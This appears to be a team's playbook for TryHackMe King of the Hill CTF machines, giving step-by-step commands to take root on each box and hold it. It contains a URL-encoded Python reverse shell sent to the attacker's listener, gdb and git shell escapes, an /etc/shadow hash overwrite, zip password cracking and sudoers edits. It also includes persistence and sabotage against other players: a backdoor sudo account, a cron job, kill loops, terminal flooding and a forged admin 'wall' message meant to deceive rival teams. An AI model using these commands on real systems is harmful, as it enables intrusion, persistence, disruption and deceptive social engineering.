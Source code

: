 start up the in-browser machine a few minutes before game starts. It takes time.

# useful commands
find all admin commands:

`find / -perm -u=s -type f 2>/dev/null`

run linPEAS.sh(tool that finds potential privilege escalation points)


`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  
find sudo commands
`sudo -l`
# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
sudo chmod -xs vim.basic  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit  
be root  
copypaste these in place of shrek's account in /etc/shadow  
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::  
you now have shrek:onionshavelayers  
make shrek a sudoer  
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *  
grab the flag if someone else hasn't already  
sudo systemctl stop httpd  
sudo systemctl stop tomcat  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"  
```
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon  
```
change password  
```
killall node(make sure to ssh first)  
chmod /bin/cp 000      
```
???  
profit      

## production:  
navigate to `ftp://anonymous@<ip>:21`  
download id_rsa and the flag, put the flag in  
```
chmod 600 id_rsa
ssh -i id_rsa ashu@<ip>
sudo su skidy
sudo git -p help config
!/bin/sh
```
you have root now, become king
afterwards stuff
```
sudo chmod -sx /usr/lib/git-core/git
```

# Fortune:  
Requires: fcrackzip  
  
nc <BOX_IP> 3333  
#returns base 64 hash of a file.    
Go here https://base64.guru/converter/decode/file and get the zip file.  
fcrackzip -v -u -D -p <location of rockyou.txt> application.zip  
Open the zip with the password you got.  Should contain password for fortune account.  
ssh fortuna@<BOX IP>  
sudo pico /etc/sudoers  
Replace pico in sudoers file with ALL. (e.g. fortuna    ALL=(ALL:ALL) ALL)  
sudo su  
you're root  
stuff to do:   
	change password to fortuna.  
	Remove fortuna from /etc/sudoers and add another user that you have credentials for.  

# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> & 
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



